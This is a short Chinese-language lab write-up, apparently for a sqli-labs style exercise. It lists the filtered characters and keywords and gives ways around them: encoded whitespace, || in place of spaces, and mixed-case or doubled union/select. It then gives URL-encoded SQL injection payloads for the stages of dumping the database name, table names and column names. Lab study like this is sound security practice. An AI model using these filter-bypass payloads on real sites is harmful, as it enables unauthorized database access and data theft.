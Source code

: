 最后可以知道被过滤的字符有
 /* , – , # , 空格 , /，/s
union、select、UNION、SELECT、Union、Select
<hr/>
替代空格：
%09  TAB 键（水平）
%0a  新建一行
%0c  新的一页
%0d  return 功能
%0b  TAB 键（垂直）
%a0  空格
空格换成 ||
<hr/>
注释被过滤掉了，就可以使用拼接进语句，将2侧进行闭合
<hr/>
union和select可以使用大小写混淆绕过，或者双写


---


---


---


> 
<h3>2.4、第三步：判断字段数</h3>



> 
<h3>2.5、第四步：暴库</h3>
?id=1'%26%26extractvalue(1, concat(0x7e, database()))%26%26'1

 或者
?id=0'unIon%0BSelEcT%0B1,database(),3||'1




> 
<h3>2.6、第五步：爆表名</h3>
?id=0'%0AunIon%0ASeLeCt%0A1,(SeLeCt%0Agroup_concat(table_name)%0Afrom%0Ainformation_schema.tables%0Awhere%0Atable_schema='security'),3||'1



 或者
?id=0'||extractvalue(1,concat(0x7e,(sEleCt(group_concat(table_name))from(information_schema.tables)where(table_schema)=database())))||'




> 
<h3>2.7、第六步：爆字段</h3>
?id=0'%0buniOn%0bsElEct%0b1,(group_concat(column_name)),3%0bfrom%0binformation_schema.columns%0bwhere%0btable_schema='security'%0bAnd%0btable_name='users'%0b%26%26%0b'1'='1
